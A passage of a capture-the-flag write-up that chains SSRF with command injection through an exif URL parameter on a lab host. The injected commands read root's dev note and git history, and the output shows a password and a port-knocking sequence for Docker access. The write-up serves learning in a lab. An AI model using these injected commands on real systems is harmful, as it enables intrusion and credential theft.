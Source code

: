 And we get id of app, So we can use SSRF.Now after i looking around i'm found `dev-note.txt` in here `http://10.10.50.223/api/exif?url=http://api-dev-backup:8080/exif?url=echo;cd%20/;cat%20/root/dev-note.txt`

```
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               Hey guys,

Apparently leaving the flag and docker access on the server is a bad idea, or so the security guys tell me. I've deleted the stuff.

Anyways, the password is fluffybunnies123

Cheers,

Hydra
```
Then in directory of root i found .git, Now let's check this
`http://10.10.50.223/api/exif?url=http://api-dev-backup:8080/exif?url=echo;git%20--git-dir%20/root/.git%20log`

```
Author: Hydra <hydragyrum@example.com>
Date:   Thu Jan 7 16:48:58 2021 +0000

    fixed the dev note

commit 4530ff7f56b215fa9fe76c4d7cc1319960c4e539
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Removed the flag and original dev note b/c Security

commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes
```
`http://10.10.50.223/api/exif?url=http://api-dev-backup:8080/exif?url=echo;git%20--git-dir%20/root/.git%20diff%20a3d30a7d0510dc6565ff9316e3fb84434916dee8`

```
diff --git a/dev-note.txt b/dev-note.txt
deleted file mode 100644
index 89dcd01..0000000
--- a/dev-note.txt
+++ /dev/null
@@ -1,9 +0,0 @@
-Hey guys,
-
-I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.
-
-Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
-
-Cheers,
-
-Hydra
\ No newline at end of file
diff --git a/flag.txt b/flag.txt
```